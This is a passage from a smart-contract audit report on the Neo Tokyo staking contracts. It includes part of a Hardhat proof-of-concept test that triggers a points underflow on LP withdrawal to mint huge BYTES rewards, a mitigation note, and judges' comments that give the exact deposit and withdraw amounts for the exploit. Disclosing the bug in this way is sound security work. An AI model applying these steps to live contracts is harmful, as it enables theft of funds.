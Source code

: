 ```js
			// Alice withdraw LP
                        // This transaction will cause underflow of `lpPosition.points`
			await NTStaking.connect(alice.signer).withdraw(
				ASSETS.LP.id,
				amount1.add(amount2)
			);

			// Before exploit:: Verify Alice's Bytes balance is less than 10000 BYTES
			expect(await NTBytes2_0.balanceOf(alice.address)).lt(ethers.utils.parseUnits('10000', 18))
			
			// Get rewards for Alice. It will mint HUGE rewards due to underflow happened on withdraw transaction.
			await NTBytes2_0.getReward(alice.address)

			// After exploit:: Verify Alice's Bytes balance is greater than 3e64
			expect(await NTBytes2_0.balanceOf(alice.address)).gt(ethers.utils.parseUnits('3', 64))
		});
```

### Recommended Mitigation Steps

Consider adding proper precision for `points` and `totalPoints` and also consider checking for under/overflows.

**[TimTinkers (Neo Tokyo) commented](https://github.com/code-423n4/2023-03-neotokyo-findings/issues/261#issuecomment-1477324787):**
 > @hansfriese - this attack is a different way of abusing the same rounding bug from [#348](https://github.com/code-423n4/2023-03-neotokyo-findings/issues/348); duplicates?
> 
> I agree with the severity of the underlying issue and really appreciate the test case demonstrating this.

**[hansfriese (judge) commented](https://github.com/code-423n4/2023-03-neotokyo-findings/issues/261#issuecomment-1477516448):**
 > Totally, there are 3 kinds of rounding issues.
> 1. Users can get infinite points by depositing `5e15` twice and withdrawing `1e16`. So `0 * 2 - 1 = -1 = type(uint256).max`
> 2. Users can get free points by depositing 1e16 and withdrawing 5e15 twice. So `1 - 0 * 2 = 1`
> 3. Users would lose some LP(or staking reward) due to the rounding.
> 
> After discussing with other judges, I will merge 1 and 2 into one high and mark 3 as QA as it contains a lower impact.

**[TimTinkers (Neo Tokyo) confirmed](https://github.com/code-423n4/2023-03-neotokyo-findings/issues/261#issuecomment-1482544958)**



***

# Low Risk and Non-Critical Issues
